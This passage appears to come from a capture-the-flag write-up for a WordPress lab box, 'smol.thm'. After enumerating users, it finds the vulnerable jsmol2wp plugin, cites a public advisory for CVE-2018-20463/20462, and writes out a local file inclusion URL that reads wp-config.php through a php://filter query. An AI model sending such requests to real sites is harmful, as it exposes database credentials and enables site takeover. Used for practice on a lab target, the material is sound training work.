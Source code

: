 We have vulnerable plugin and users.

Stored all the users in users.txt file.

### Local File Inclusion (LFI)

Now lets search for this vulnerable plugin online.

And found this wonderful POC.

```bash
https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt?source=post_page-----fbd2a0ddf9ce---------------------------------------
```

![image.png](/assets/images/Smol_THM/image%209.png)

So lets implement this and try to read files on the server.

Visiting to this url.

```bash
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=////wp-config.php
```
